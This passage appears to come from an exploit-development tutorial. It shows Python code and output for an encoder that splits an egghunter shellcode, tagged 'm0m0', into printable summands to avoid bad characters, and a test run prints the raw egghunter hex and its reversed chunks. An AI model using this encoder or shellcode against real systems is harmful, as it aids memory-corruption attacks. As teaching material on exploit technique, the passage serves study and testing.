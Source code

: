 ```py
        for j in range(4):
            for k in range(3):
                summands[i][k] += "\\x{}".format(hex(int_list[i][j].pop())[2:4]) # dec to hex string conversion


    print("Summands:\n{}".format(summands))     # DEBUG
    return(summands)
```

As usual, some print commands have been included to help us see how the summands are being generated. Within the list of integer partitions, we have lists containing four partitions each. Each of these lists containing partitions corresponds to a four-byte two's complement chunk of the egghunter. We need three summands per chunk. The list of summands has been formatted in little-endian and correctly ordered for printing op codes blocks to console output.

```py
def main():
    a = check_args(sys.argv[1:])
    egghunter = format_egghunter(a.egghunter,a.tag,a.pad)
    tc_egghunter = reverse_and_split(egghunter)
    good_chars = list(filter_chars(a.bad))
    generate_summands(tc_egghunter, good_chars)
```

```
Integer partitions:
[[[47, 46, 46], [94, 93, 93], [85, 85, 85], [93, 93, 93]], [[113, 112, 112], [46, 46, 45], [93, 92, 92], [112, 112, 111]], [[49, 49, 49], [69, 69, 69], [39, 39, 38], [87, 87, 87]], [[91, 91, 91], [109, 109, 108], [49, 48, 48], [69, 69, 69]], [[66, 65, 65], [84, 83, 83], [55, 55, 55], [47, 46, 46]], [[85, 85, 84], [56, 56, 55], [102, 102, 102], [70, 69, 69]], [[81, 80, 80], [63, 63, 63], [58, 58, 57], [50, 50, 49]], [[52, 51, 51], [42, 42, 42], [103, 103, 103], [85, 85, 85]]]
Summands:
[['\\x2e\\x5d\\x55\\x5d', '\\x2e\\x5d\\x55\\x5d', '\\x2f\\x5e\\x55\\x5d'], ['\\x70\\x2d\\x5c\\x6f', '\\x70\\x2e\\x5c\\x70', '\\x71\\x2e\\x5d\\x70'], ['\\x31\\x45\\x26\\x57', '\\x31\\x45\\x27\\x57', '\\x31\\x45\\x27\\x57'], ['\\x5b\\x6c\\x30\\x45', '\\x5b\\x6d\\x30\\x45', '\\x5b\\x6d\\x31\\x45'], ['\\x41\\x53\\x37\\x2e', '\\x41\\x53\\x37\\x2e', '\\x42\\x54\\x37\\x2f'], ['\\x54\\x37\\x66\\x45', '\\x55\\x38\\x66\\x45', '\\x55\\x38\\x66\\x46'], ['\\x50\\x3f\\x39\\x31', '\\x50\\x3f\\x3a\\x32', '\\x51\\x3f\\x3a\\x32'], ['\\x33\\x2a\\x67\\x55', '\\x33\\x2a\\x67\\x55', '\\x34\\x2a\\x67\\x55']]
```


Let's confirm that our summands have been generated correctly:

```
# ./encoder-test.py -b "\x21\x44\x5f" -e 3 -t m0m0
6681CAFF0F42526A0258CD2E3C055A74EFB86d306d308BFAAF75EAAF75E7FFE7


# Reversed chunks in little-endian:
# e7ffe775
# afea75af
# fa8b306d
# 306db8ef
# 745a053c
# 2ecd5802
# 6a52420f
# ffca8166
```
